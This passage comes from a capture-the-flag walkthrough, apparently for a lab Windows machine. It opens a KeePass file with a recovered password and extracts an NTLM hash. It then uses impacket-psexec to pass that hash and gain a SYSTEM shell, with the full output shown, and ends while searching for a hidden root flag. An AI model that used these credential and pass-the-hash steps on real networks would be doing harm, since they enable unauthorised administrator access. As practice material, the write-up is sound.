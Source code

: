 ```shell

# Use KeePassXC to open CEH.kdbx
keepassxc CEH.kdbx

# Once the file opens, we can enter the password to unlock it
moonshine1
```
### Pass-the-Hash to get access as Administrator using impacket-psexec
We tried to get access using the users and the passwords inside CEH.kdbx, but they werent valid. However, we can still try to Pass-the-Hash we found inside Backup in CEH.kdbx:
```shell
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00

# We will just need the second part of the hash
e0fb1fb85756c24235ff238cbe81fe00
```
Now we can use the hash with impacket-psexec to get access as Administrator:
```shell
impacket-psexec -hashes :e0fb1fb85756c24235ff238cbe81fe00 Administrator@10.129.142.123
```
This will give us a shell as system:
```shell
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 10.129.142.123.....
[*] Found writable share ADMIN$
[*] Uploading file QSATCaNL.exe
[*] Opening SVCManager on 10.129.142.123.....
[*] Creating service mAkb on 10.129.142.123.....
[*] Starting service mAkb.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
### Getting the true root.txt flag
Now we can get the root.txt flag:
```shell
dir C:\Users\Administrator\Desktop
```

```shell
11/08/2017  09:05 AM    <DIR>          .
11/08/2017  09:05 AM    <DIR>          ..
12/24/2017  02:51 AM                36 hm.txt
11/08/2017  09:05 AM               797 Windows 10 Update Assistant.lnk
```
Hm... hm.txt?
```shell
C:\Users\Administrator\Desktop> type hm.txt
The flag is elsewhere.  Look deeper.
```
Let's see if the flag is hidden here:
```shell
C:\Users\Administrator\Desktop> dir /R
```
